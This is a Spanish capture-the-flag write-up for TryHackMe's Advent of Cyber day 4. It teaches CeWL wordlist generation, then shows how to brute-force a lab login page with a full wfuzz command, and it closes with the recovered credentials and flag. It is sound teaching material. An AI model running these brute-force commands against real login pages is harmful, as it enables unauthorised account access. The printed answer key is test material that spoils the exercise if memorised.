 # Advent of Cyber Día 4: Brute-forcing

## Introducción

El enunciado comienza contándonos que nuestros protagonistas sufrieron un ataque de fuerza bruta y se hace énfasis en que el atacante logró su cometido muy rápidamente, casi en los primeros intentos. Nos explican que para lograr esto el atacante utilizó una *customized wordlist* y que para generarla utilizó una herramienta especialmente dedicada a eso (CeWL).

## Objetivos de aprendizaje

- Aprender sobre CeWL (se pronuncia "cool")
- Aprender las capacidades de CeWL
- Aprender a generar *custom wordlists* de una página web con CeWL
- Aprender a configurar el output para casos específicos

## CeWL

Es un generador de listados de palabras, el mismo le hace "spider" una página web para crear el listado basándose en los contenidos de la misma. Spidering en el contexto de ciberseguridad refiere al proceso de navegar automáticamente una web y catalogar su contenido, obteniendo su estructura, contenido y otros detalles relevantes. Es una herramienta muy valiosa para penetration testers, ya que encaja perfecto con la estrategia de fuerza bruta. Con el listado de palabras generado se puede hacer brute-forcing a distintas páginas de login.  
Ademas de generar listados de palabras, CeWL también compila una lista de emails y nombres de usuario identificados en los links de la página. Estos valores pueden usarse en el campo de usuario en las operaciones de fuerza bruta.

### Cómo usarlo

Para generar un listado sencillo basta con:

```ps1
cewl http://MACHINE_IP -w output.txt
```

Para ver todas las opciones disponibles:

```ps1
cewl -h
```

### Por qué usarlo

A diferencia de otras herramientas que requieren listas predefinidas o "common dictionary attacks", CeWL crea listados personalizados basados en el contenido de la página web. Ademas:

- **Listados específicos**: los listados generados son hechos específicamente para un contexto concreto (el de la página), por lo que aborda todo el vocabulario y terminología del sitio.
- **Profundidad de la búsqueda**: se puede especificar la profundidad de la búsqueda, extrayendo información no solo de una página, sino también de las páginas que tengan sus links presentes en la página principal.
- **Output personalizable**: CeWL tiene opciones para personalizar el output, algunos ejemplos son: limitar el tamaño de las palabras, quitar los números, incluir *meta tags*, etc.
- **Funcionalidades extra**: ademas de generar los listados de palabras, también es posible enumerar nombres de usuario y extraer direcciones email.
- **Eficiencia**: gracias a su personalización, CeWL permite generar listados pequeños pero mucho más relevantes.
- **Integración**: siendo una aplicación de línea de comandos, es muy simple integrarlo y compartir información con otras herramientas.
- **Activamente mantenido**: recibe actualizaciones constantemente.

### Personalizar el output

#### Profundidad de búsqueda

Supongamos que queremos que la búsqueda tenga 2 links como profundidad:

```ps1
cewl http://MACHINE_IP -d 2 -w output1.txt
```

#### Tamaño mínimo y máximo de las palabras

Supongamos que queremos palabras de entre 5 y 10 caracteres:

```ps1
cewl http://MACHINE_IP -m 5 -x 10 -w output2.txt
```

#### Autenticación

Si la página web objetivo está detrás de un login, se puede usar `-a` para una *form-based authentication*.

#### Extensiones personalizadas

La opción `--with-numbers` le agrega números al final de las palabras y la opción `--extension` le agrega una extensión personalizada.

#### Seguir links externos

Por defecto CeWL no sigue links a sitios externos, para cambiar este comportamiento hay que usar `--offsite`.

## Resolución

Se va a trabajar con la VM de THM. Hay que usar todo lo aprendido para lograr entrar en http://MACHINE_IP/login.php.

![Website](img/1.png)

### Creando un listado de contraseñas

```ps1
cewl -d 2 -m 5 -w passwords.txt http://MACHINE_IP --with-numbers
```

![Output1](img/2.png)

### Creando un listado de usuarios

```ps1
cewl -d 0 -m 5 -w usernames.txt http://10.10.10.158/team.php --lowercase
```

![Output2](img/3.png)

### Fuerza bruta mediante wfuzz

Wfuzz es una herramienta que permite aplicarle fuerza bruta a una aplicación web. Permite encontrar recursos, directorios, scripts, aplicarle fuerza bruta a parámetros de GET y POST, aplicarle fuerza bruta a usuarios y contraseñas y fuzzing.

```ps1
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://MACHINE_IP/login.php -d "username=FUZZ&password=FUZ2Z"
```

Donde:

- `-z file,usernames.txt`: carga los nombres de usuario generados por CeWL
- `-z file,passwords.txt`: carga las contraseñas generadas por CeWL
- `--hs "Please enter the correct credentials"`: oculta las respuestas que contengan el mensaje especificado
- `-u`: especifica la URL del objetivo
- `-d "username=FUZZ&password=FUZ2Z"`: especifica el formato de POST, donde `FUZZ` se reemplaza por los nombres de usuario y `FUZZ2Z`por las contraseñas.

![Output3](img/4.png)

### Respuesta

<details>
<summary>Spoiler</summary>
<table>
  <thead>
    <tr>
      <th style="text-align:center">Información</th>
      <th style="text-align:center">Valor</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:center">username:password</td>
      <td style="text-align:center"><code>isaias:Happiness</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Flag</td>
      <td style="text-align:center"><code>THM{m3rrY4nt4rct1crAft$}</code></td>
    </tr>
  </tbody>
</table>
</details>

### [Volver a inicio](../../README.md)
